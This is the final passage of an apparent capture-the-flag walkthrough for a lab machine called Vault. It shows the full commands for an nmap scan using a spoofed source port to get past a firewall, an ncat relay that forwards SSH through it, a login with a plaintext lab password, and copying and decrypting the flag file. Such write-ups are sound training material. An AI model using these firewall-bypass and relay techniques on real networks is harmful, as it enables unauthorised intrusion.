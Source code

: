 ```
```

By using the 4444 as a source port we can bypass the firewall and find another open port:

```
root@DNS:~# nmap -g 4444 -sS -P0 -p 1-1000 192.168.5.2

Starting Nmap 7.01 ( https://nmap.org ) at 2018-11-04 04:16 GMT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for Vault (192.168.5.2)
Host is up (0.0023s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE
987/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.84 seconds
```

We'll need to SSH in by changing the source port of the TCP socket. To do that we can spawn a ncat listener that redirects to port 987 while changing the source port. Then we just SSH to ourselves on the ncat listening port.

```
root@DNS:~# ncat -l 2222 --sh-exec "ncat 192.168.5.2 987 -p 4444"
```

```
root@DNS:~# ssh -p 2222 dave@127.0.0.1  (password = dav3gerous567)

Last login: Mon Sep  3 16:48:00 2018
dave@vault:~$ id
uid=1001(dave) gid=1001(dave) groups=1001(dave)

vault:~$ ls
root.txt.gpg
```

The only thing interesting is the `root.txt.gpg`

We can download this back to the host OS and decrypt it with the `itscominghome` key we found earlier:

```
root@DNS:/var/www/html# ncat -l 2222 --sh-exec "ncat 192.168.5.2 987 -p 4444"

dave@ubuntu:~$ scp -P 2222 dave@192.168.122.4:~/root.txt.gpg .
dave@192.168.122.4's password: 
root.txt.gpg                                                          100%  629     0.6KB/s   00:00
```

```
dave@ubuntu:~$ gpg -d root.txt.gpg

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
ca468...
```